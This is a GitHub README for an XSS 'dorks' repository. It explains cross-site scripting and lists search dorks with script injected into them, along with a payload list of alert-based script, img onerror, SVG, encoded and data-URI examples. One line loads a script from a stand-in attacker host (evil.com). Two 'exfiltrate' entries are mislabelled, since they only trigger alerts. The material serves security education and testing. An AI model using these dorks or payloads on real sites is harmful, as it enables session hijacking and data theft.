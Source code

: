 # Cross-Site Scripting (XSS) Dorks Repository

![Cross-Site Scripting](https://img.shields.io/badge/Cross--Site%20Scripting-red)

Welcome to the Cross-Site Scripting (XSS) Dorks repository! This repository contains a collection of XSS dorks and an explanation of what XSS is, along with advanced examples of XSS dorks.

## Table of Contents
- [What is Cross-Site Scripting (XSS)?](#what-is-cross-site-scripting-xss)
- [Examples of Cross-Site Scripting (XSS) Dorks](#examples-of-cross-site-scripting-xss-dorks)
- [Understanding XSS](#understanding-xss)
- [Advanced XSS Concepts](#advanced-xss-concepts)
- [Comprehensive Cross-Site Scripting (XSS) Payloads](#comprehensive-cross-site-scripting-xss-payloads)
- [Exploring the GDorks Main Repository](#exploring-the-gdorks-main-repository)
- [How to Use This Repository](#how-to-use-this-repository)
- [Contributing](#contributing)


## What is Cross-Site Scripting (XSS)?

Cross-Site Scripting (XSS) is a security vulnerability found in web applications that allows attackers to inject malicious scripts into web pages viewed by other users. These scripts execute within the browser, compromising user sessions, stealing data, or redirecting users to malicious sites.

## Examples of Cross-Site Scripting (XSS) Dorks

Here are advanced examples of Cross-Site Scripting (XSS) dorks that illustrate various attack vectors:

1. **<img> Tag XSS Dork**: This dork can be used to identify websites vulnerable to XSS using the `<img>` tag.

   ```
   inurl:/profile.php?username=<img src="javascript:alert('XSS')" />
   ```

2. **Event Handler XSS Dork**: Identifies websites vulnerable to XSS through event handler attributes.

   ```
   inurl:/news.php?id=1" onmouseover="alert('XSS')"--
   ```

3. **Script Injection through Input Fields**: Detects websites susceptible to XSS via input fields.

   ```
   inurl:/search?query=<script>alert('XSS')</script>
   ```

## Comprehensive Cross-Site Scripting (XSS) Payloads

XSS payloads come in various forms and contexts, allowing for diverse exploitation scenarios. Below are examples of XSS payloads in different formats, contexts, and encodings, enabling the demonstration and testing of XSS vulnerabilities:

1. **Basic Alert Payload:**

   ```javascript
   <script>alert('XSS')</script>
   ```

2. **Image Source Payload:**

   ```javascript
   <img src="javascript:alert('XSS')" />
   ```

3. **Input Field Payload:**

   ```javascript
   <input type="text" value="<script>alert('XSS')</script>" />
   ```

4. **Event Handler Payload:**

   ```javascript
   <div onmouseover="alert('XSS')">Mouse over me</div>
   ```

5. **Encoded Payloads:**

   - Basic Alert Payload encoded as URL: `%3Cscript%3Ealert('XSS')%3C%2Fscript%3E`
   - Base64 encoded Payload: `PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`

6. **SVG-based Payloads:**

   ```xml
   <svg onload="alert('XSS')" />
   ```

   ```xml
   <svg><script>alert('XSS')</script></svg>
   ```

7. **URL Payloads:**

   - URL payload as a query parameter: `http://example.com/?name=<script>alert('XSS')</script>`

8. **Image Payload with Invalid Source:**

   ```javascript
   <img src="invalid" onerror="alert('XSS')" />
   ```

9. **Data URI Payload:**

   ```html
   <a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=">Click me</a>
   ```

10. **DOM-based Payloads:**

    - Using document.cookie to exfiltrate cookies: `';alert(String.fromCharCode(88,83,83))//'`
    - Using location.href to exfiltrate the URL: `';alert(document.location)//`
   
11. **HTML Event Payloads:**

    - XSS via onerror attribute: `<img src="test" onerror="alert('XSS')" />`
    - XSS via onfocus attribute: `<input type="text" onfocus="alert('XSS')" />`
    - XSS via onload attribute: `<body onload="alert('XSS')" />`

12. **Script Tag Payloads:**

    - Embedding scripts as part of the content: `<script>alert('XSS')</script>`
    - Executing scripts from the URL parameter: `<script src="http://evil.com/malicious.js"></script>`

Feel free to use these payloads to test for XSS vulnerabilities in web applications. Always ensure you have proper authorization and consent before performing any security testing.

Keep in mind that these examples are for educational purposes, and using them for unauthorized testing or exploitation is strictly prohibited.

## Understanding XSS
XSS vulnerabilities can have severe implications, including data theft, session hijacking, and unauthorized access. Understanding the different types of XSS and employing secure coding practices can help prevent such vulnerabilities.

## Advanced XSS Concepts

Advanced XSS involves bypassing filters, utilizing different encoding techniques, and exploiting client-side vulnerabilities. Techniques include DOM-based XSS, circumventing Content Security Policy (CSP), and using JavaScript obfuscation to evade detection.

## Exploring the GDorks Main Repository

The [GDorks repository](https://github.com/Ishanoshada/GDorks/) is a rich resource housing an extensive collection of XSS dorks, categorized folders, and comprehensive documentation covering various XSS attack vectors and methods. It's an invaluable resource for learning and protecting against XSS vulnerabilities.

## How to Use This Repository

This repository is organized into folders, each containing specific XSS dorks and related information. Users can browse through the folders to explore XSS dorks of interest.

To contribute to this repository, follow the steps outlined in the [Contributing](#contributing) section.

## Contributing

Contributions to this repository are welcome! If you have additional XSS dorks, examples, or documentation to share, please follow these steps:

1. Fork the repository.
2. Create a new branch with a descriptive name.
3. Add your XSS dorks or other content.
4. Submit a pull request.

Your contributions will help make this repository more comprehensive and informative for the community.
